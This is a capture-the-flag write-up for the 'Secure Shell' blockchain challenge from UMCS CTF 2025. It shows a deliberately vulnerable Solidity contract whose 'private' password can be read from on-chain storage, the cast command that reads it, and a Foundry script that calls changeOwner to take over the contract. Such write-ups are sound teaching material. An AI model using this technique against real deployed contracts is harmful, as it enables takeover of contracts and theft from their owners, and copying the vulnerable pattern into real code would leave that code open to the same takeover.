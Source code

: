 # 🚩 Secure Shell – Easy

- **Category:** Blockchain
- **CTF Event:** UMCS CTF 2025
- **Difficulty:** Easy

---

## Challenge Files

- [`SecureShell.sol`](src/SecureShell.sol)
- [`Setup.sol`](src/Setup.sol)

---

## Objective

### `Setup.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import "./SecureShell.sol";

contract Setup {
    SecureShell public secureShell;

    constructor(uint256 _password) {
        secureShell = new SecureShell(_password);
    }

    function isSolved() public view returns (bool) {
        return secureShell.owner() == msg.sender;
    }
}
```

The main goal is to become the owner of `secureShell` as required in the `isSolved()` function in the `Setup` contract.

---

## Code Analysis

### `SecureShell.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

contract SecureShell {
    address public owner;
    uint256 private secretPassword;
    uint256 public accessLevel;
    uint256 public securityPatches;
    
    constructor(uint256 _password) {
        owner = msg.sender;
        secretPassword = _password;
        accessLevel = 0;
        securityPatches = 0;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "Not the owner");
        _;
    }
    
    function changeOwner(uint256 _password, address _newOwner) public {
        require(_password == secretPassword, "Incorrect password");
        owner = _newOwner;
    }
    
    function requestAccess(uint256 _accessCode) public returns (bool) {
        if (_accessCode == 31337) {
            accessLevel++;
            return true;
        } else {
            return false;
        }
    }
    
    function pingServer() public view returns (uint256) {
        return uint256(keccak256(abi.encodePacked(block.timestamp, msg.sender))) % 1000;
    }
    
    function updateSecurity() public onlyOwner {
        securityPatches++;
    }
}
```

In this `SecureShell.sol` file, we can observe that there's a function called `changeOwner()` which required the caller to call it with the correct password in order to change the owner of the contract. Thus, as long as we know the correct password, we are able to change the owner. We can see that the `secretPassword` is stored in the storage which is actually public even it used a `private` keyword, as in the context of blockchain, it is publicly visible as a on-chain data. The `private` keyword would use to only prevent other contracts from reading it.

---

## Exploitation

The key to this challenge is the `changeOwner()` function, which lets anyone become the contract owner if they provide the correct password. Although the password is marked as private, all contract storage is publicly accessible on-chain. We can simply read the secretPassword value directly from storage using tools like `cast` or `ethers.js`. However, I'm using the `cast` tool in Foundry:

```bash
cast storage 1 --rpc-url $RPC_URL
```

We check the slot `1` in the contract storage as the `secretPassword` in stored at slot `1`. Slot `0` was storing the value of `owner` as it is declared as address which takes up to `20` bytes, `secretPassword` is declared as `32` bytes which will need to be stored at the next slot as each slot can only store up to a `32` bytes. If the size of `secretPassword` in bytes is `12`, it will be stored at slot `0`, combining with the value of `owner`.

Once you have the password, call changeOwner() with our address to take ownership and solve the challenge.

```solidity
SecureShell public secureShell;
function run() external {
    vm.startBroadcast();
    secureShell = SecureShell(vm.envAddress("SS"));
    secureShell.changeOwner(13377331, vm.envAddress("WALLET"));
    vm.stopBroadcast();
}
```

See the full exploitation script [here](script/Exploit.s.sol).

### Command to Deploy the Script

```bash
forge script script/Exploit.s.sol:Exploit --broadcast --rpc-url $RPC_URL --private-key $PK
```

Please kindly save the variables in the `.env` file. However, and please don't save your private key in plaint text in production!

---